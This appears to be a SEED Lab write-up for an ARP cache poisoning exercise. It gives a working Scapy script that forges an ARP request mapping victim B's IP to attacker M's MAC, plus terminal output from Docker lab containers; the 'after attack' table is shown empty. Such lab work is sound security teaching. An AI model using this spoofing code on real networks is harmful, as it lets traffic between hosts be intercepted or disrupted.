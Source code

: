 ## Task 1.A (using ARP Request)
On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

#### Python [ARP-Request.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-Request.py)
```python
from scapy.all import *

# Victim A's values
a_mac   = "02:42:0a:09:00:05"   # MAC of A
a_ip    = "10.9.0.5"            # IP of A

# Victim B's values
b_mac   = "02:42:0a:09:00:06"   # MAC of B
b_ip    = "10.9.0.6"            # IP of B

# Attacker's values
m_mac   = "02:42:0a:09:00:69"   # MAC of M
m_ip    = "10.9.0.105"          # IP of M

# Forge an ARP request to A, asking "Who has B's IP?"
arp_req = ARP(
    op=1,               # ARP request
    psrc=b_ip,          # Claim to be B (pretending to be B IP Address)
    hwsrc=m_mac,        # Send M's MAC (attacker's MAC)
    pdst=b_ip,          # Asking "Who has B's IP?"
)

eth = Ether(dst=a_mac, src=m_mac)   # Send directly to A
pkt = eth / arp_req         # Combine Ethernet and ARP layers

sendp(pkt, iface="eth0")    # Send the packet on the specified interface
```

#### Output
```
// Attacker M Container
seed@VM> docker cp ARP-Request.py M-10.9.0.105:/tmp/
seed@VM> docksh M-10.9.0.105
root@M-10.9.0.105:/# python3 /tmp/ARP-Request.py
	.
	Sent 1 packets.

// Victim A Container
seed@VM> docksh A-10.9.0.5
root@A-10.9.0.5:/# ping 10.9.0.6
	PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
	64 bytes from 10.9.0.6: icmp_seq=1 ttl=64 time=0.396 ms
	64 bytes from 10.9.0.6: icmp_seq=2 ttl=64 time=0.148 ms
	64 bytes from 10.9.0.6: icmp_seq=3 ttl=64 time=0.163 ms
	64 bytes from 10.9.0.6: icmp_seq=4 ttl=64 time=0.171 ms
	^C
	--- 10.9.0.6 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3078ms
	rtt min/avg/max/mdev = 0.148/0.219/0.396/0.102 ms
// Before Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
	10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
// After Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
```